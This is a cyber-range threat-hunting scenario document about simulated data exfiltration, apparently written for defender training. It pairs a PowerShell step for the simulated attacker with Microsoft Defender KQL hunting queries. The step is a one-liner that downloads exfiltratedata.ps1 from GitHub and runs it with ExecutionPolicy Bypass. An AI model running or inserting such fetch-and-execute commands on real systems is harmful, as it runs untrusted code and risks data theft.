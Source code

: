# Threat Event (Suspected Exfiltration of Company Data)
**Use of Powershell to run "Malicious" script**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Execute the following code in Powershell:
- `Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1`

## What this script does:
- `exfiltratedata.ps1` is a PowerShell script designed to simulate data exfiltration for cybersecurity training and testing. It demonstrates how sensitive files might be collected and transmitted by an attacker. Intended for use in controlled environments only.
---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detection of archival software execution. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of 7zip as well as execution of exfiltratedata.ps1 powershell script.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to determine if any data has been exfiltrated from the network.|

---

## Related Queries:
```kql
// Look for any kind of archive activity
let archive_applications = dynamic(["winrar.exe", "7z.exe", "winzip32.exe", "peazip.exe", "Bandizip.exe", "UniExtract.exe", "POWERARC.EXE", "IZArc.exe", "AshampooZIP.exe", "FreeArc.exe"]);
let VMName = "windows-target-1";
DeviceProcessEvents
| where FileName has_any(archive_applications)
| order by Timestamp desc


// Look for any file activity, based on the Timestamp from any discovered process activity
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
let VMName = "windows-target-1";
DeviceFileEvents
| where Timestamp between ((specificTime - 1m) .. (specificTime + 1m))
| where DeviceName == VMName
| order by Timestamp desc


// Look for any network activity, based on the Timestamp from the process or file activity
let VMName = "windows-target-1";
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
DeviceNetworkEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc


```

---

## Created By:
- **Author Name**: Jordan West
- **Author Contact**: https://www.linkedin.com/in/jordan-west-it/
- **Date**: April 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial Draft                 |`September 6, 2024`| `Josh Madakor` |
| 2.0         | Updated draft                 | `April 16, 2025`  | `Jordan West`   |


